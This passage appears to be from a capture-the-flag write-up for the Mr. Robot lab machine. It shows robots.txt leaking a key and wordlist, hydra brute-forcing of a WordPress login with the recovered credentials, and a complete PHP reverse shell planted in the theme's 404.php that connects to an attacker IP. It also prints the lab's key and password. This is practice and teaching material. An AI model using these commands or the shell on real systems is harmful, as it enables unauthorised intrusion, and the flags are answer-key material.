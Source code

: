 ### 3. Find Key 1
- Checked `http://[VICTIM IP]/ROBOTS.TXt`:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
- Visited `http://[VICTIM IP]/key-1-of-3.txt`:
  - Content: `073403c8a58a1f80d943455fb30724b9`
- Downloaded `fsocity.dic`—a wordlist.
- Key 1: `073403c8a58a1f80d943455fb30724b9`

### 4. WordPress Login
- Noticed `/login` redirected to `/wp-login.php`—a WordPress login page.
- Brute-forced usernames:
  ```bash
  hydra -L fsocity.dic -p sigma [VICTIM IP] http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
  ```
- Flags explained:
  - `-L`: Username wordlist.
  - `-p`: Single password (`sigma` as a test).
  - `http-post-form`: Attack type.
  - `"/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"`: Form URL, parameters, failure string.
  - `-t 30`: 30 threads.
- Output:
  ```
  [80][http-post-form] host: 10.10.214.184   login: Elliot   password: sigma
  ```
- Brute-forced password:
  ```bash
  hydra -l Elliot -P fsocity.dic [VICTIM IP] http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
  ```
- Output (interrupted):
  ```
  Password: ER28-0652
  ```
- Logged in at `http://[VICTIM IP]/wp-login.php` with `Elliot:ER28-0652`.

### 5. Gain Shell Access
- Edited `404.php` in WordPress (Appearance > Theme Editor) with a PHP reverse shell:
  ```php
  <?php
  set_time_limit(0);
  $ip = '[ATTACKER IP]'; // e.g., 10.10.63.136
  $port = 4004;
  $shell = 'uname -a; w; id; bash -i';
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) exit(1);
  $descriptorspec = [0 => ["pipe", "r"], 1 => ["pipe", "w"], 2 => ["pipe", "w"]];
  $process = proc_open($shell, $descriptorspec, $pipes);
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);
  while (1) {
      if (feof($sock) || feof($pipes[1])) break;
      $read_a = [$sock, $pipes[1], $pipes[2]];
      stream_select($read_a, $write_a, $error_a, null);
      if (in_array($sock, $read_a)) fwrite($pipes[0], fread($sock, 1400));
      if (in_array($pipes[1], $read_a)) fwrite($sock, fread($pipes[1], 1400));
      if (in_array($pipes[2], $read_a)) fwrite($sock, fread($pipes[2], 1400));
  }
  fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process);
  ```